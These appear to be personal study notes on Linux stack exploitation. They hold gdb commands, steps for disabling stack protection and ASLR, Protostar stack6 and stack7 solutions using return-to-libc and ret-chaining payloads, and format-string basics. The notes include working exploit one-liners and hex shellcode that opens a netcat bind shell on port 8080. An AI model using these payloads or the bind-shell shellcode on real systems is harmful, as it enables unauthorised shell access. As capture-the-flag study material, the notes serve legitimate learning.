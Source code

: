 #Compiling while avoiding gcc's protection mechanism (-fno-stack-protector)

	gcc -ggdb -mpreferred-stack-boundary=4 -fno-stack-protector -o helloBufferOverflow helloBufferOverflow.c

##gdb commands
#Loading the program in gdb

	gdb <executableProgramCode>

#Show the entire code loaded in gdb

	(gdb)list

#Placing breakpoints on the function can be done using line numbers obtained from the list command

	(gdb)break 7

	(gdb)break <line Number>

#disassemble the functions 

	(gdb)disas main

	disas <functionName>

#Start the program execution

	(gdb)run

#If a breakpoint is set and program gets paused at the breakpoint, for contiuning with the code, use 's'

	(gdb)s

#Disassmble the code at a given memory location

	(gdb)disas 0x0040059f

	disas <Memory Location>

#Checking the stack memory layout after the program has been loaded with breakpoints

	(gdb) x/8xw $rsp

#For the debugging to work properly, execute the below command

	(gdb) set debug-file-directory

#For checking the value of rip or eip

	(gdb) print /x $rip

#For locating system libc call

	(gdb) p system


## For compiling the c code with gcc, make use of the below parameters when Segmentation Fault error is given.

	The reason is that the shellcode may be in the non-executable memory.
	gcc -fno-stack-protector -z execstack -O OutputFileName yourShellCode.c

##For checking is ASLR(Address Space Layout Randominzation) is implemented and disabling it

	cat /proc/self/maps

	echo 0 > /proc/sys/kernel/randomize_va_space


# For checking the memory dump after program execution
		ulimit -c unlimited  ---> generates a core file

		 and then crash the program.

# For checking the exact memory location address 

	attach the process id to gdb
		1. ps -aux | grep "stack6"
		2. gdb -p <pid>

****Stack6 Protostar Soln1*****
	import struct
	padding = "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBBCCCC"

	#strings -a -t x /lib/libc-2.11.2.so | grep "/bin/sh" ---> Gives the offset 0x11f3bf
	#(gdb) info proc map  ---> For getting start memory address of /lib/libc-2.11.2.so call which is 0xb7e97000
	# break main; (gdb) print exit ---> finding the address of exit function in libc 
	system = struct.pack("I", 0xb7ecffb0)
	exit = struct.pack("I", 0xb7ec60c0)
	binsh = struct.pack("I", 0xb7e97000+0x11f3bf)

	print padding + system + exit + binsh

	(cat /tmp/test6;cat) | ./stack6
******Soln 2*******************
	(python -c 'print "/bin/sh" + "\x00" + "A"*68 + "BBBB" + "\xb0\xff\xec\xb7" + "\xc0\x60\xec\xb7" + "\xac\xf7\xff\xbf"';cat) | ./stack6

	\xac\xf7\xff\xbf ----> address of /bin/sh on the stack 
	Found by attaching gdb to the process id of the running stack6 program
	******************************

*****Stack7 Protostar Soln*******************
		> Soln1 :
			python -c 'print "A"*80 + "\x83\x83\x04\x08" + "\x7d\xf9\xff\xbf"' > /tmp/test
			
			1. Here we will redirect to a memory location which contains an instruction for ret. ret pops the 	address from the stack
			and loads it on the eip.
			2. \x83\x83\x04\x08 was found using user@protostar:/opt/protostar/bin$ objdump -d stack7 | less
			3. ret should pop the value on the top of the stack and put it in the eip register
			4. So next value should be an address to which we want to execute
			5. \x7d\xf9\xff\xbf is the address to a shell that we loaded in the environment variable using
				export deadShell=`blahblahblah`
			6. Locate the deadShell address using the below mentioned c code when a program(stack7 in our case) get loaded in the memory
				./find deadShell ./stack7     ; find is the name of the c executable

		> Soln2:
			python -c 'print "A"*80 + "\x92\x84\x04\x08" + "BBBBCCCC" + "\x7d\xf9\xff\xbf"' > /tmp/test

			1. Here we locate a memory location that contains pop, pop, ret sequence using objdump
				objdump -d stack7 | less
			2. Then place  \x92\x84\x04\x08 which is the location of the instruction start
			3. Because of the 2 consecutive pops, we add 8 bytes of random junk "BBBBCCCC"
			4. Finally path of the deadShell found using the c code.
			

#Simple Shellcode for opening a root shell access on port 8080 "https://www.exploit-db.com/exploits/14332/"

 	  export deadShell=`python -c 'print "\xeb\x2a\x5e\x31\xc0\x88\x46\x07\x88\x46\x0f\x88\x46\x19\x89\x76\x1a\x8d\x5e\x08\x89\x5e\x1e\x8d\x5e\x10\x89\x5e\x22\x89\x46\x26\xb0\x0b\x89\xf3\x8d\x4e\x1a\x8d\x56\x26\xcd\x80\xe8\xd1\xff\xff\xff\x2f\x62\x69\x6e\x2f\x6e\x63\x23\x2d\x6c\x70\x38\x30\x38\x30\x23\x2d\x65\x2f\x62\x69\x6e\x2f\x73\x68\x23"'`

# Code to find memory addresses of the environmental variables when called by a program.

	#include <stdio.h>
	#include <stdlib.h>
	#include <string.h>

	int main(int argc, char *argv[]) {
        char *ptr;
        if(argc < 3) {
                printf("Usage: %s <environment var> <target program name>\n", argv[0]);
                exit(0);
        }

        ptr = getenv(argv[1]); /* Get env var location. */
        ptr += (strlen(argv[0]) - strlen(argv[2]))*2; /* Adjust for program name. */
        printf("%s will be at %p\n", argv[1], ptr);
   }

## 
		char *i = argv[1];
		printf("My name is : %s", i);

			If printf finds the first argument as %s format string, it will switch to second argument which is i and dereference it
			and will print the value stored at argv[1]

# Format String Vulnerability basics

	> A format string is an ASCIIZ string used to specify and control the representation of different variables

		int a;
		printf("%d", a);
			
		%d ---> Format String 
		This tells the printf function to convert integer `a` into the format of a string

		printf is a format function 


	> Happens when user input is used as-is in the format string 

       >  There is the ‘%n’parameter, which writes the number of bytes already printed, into a variable of our choice. The address of the 			variable is given to the format function by placing an integer pointer as parameter onto the stack.

	>  ‘%s’ displays memory from an address that is supplied on the stack. 

## Resources
https://github.com/FabioBaroni/awesome-exploit-development/blob/master/README.md
https://crypto.stanford.edu/cs155/papers/formatstring-1.2.pdf

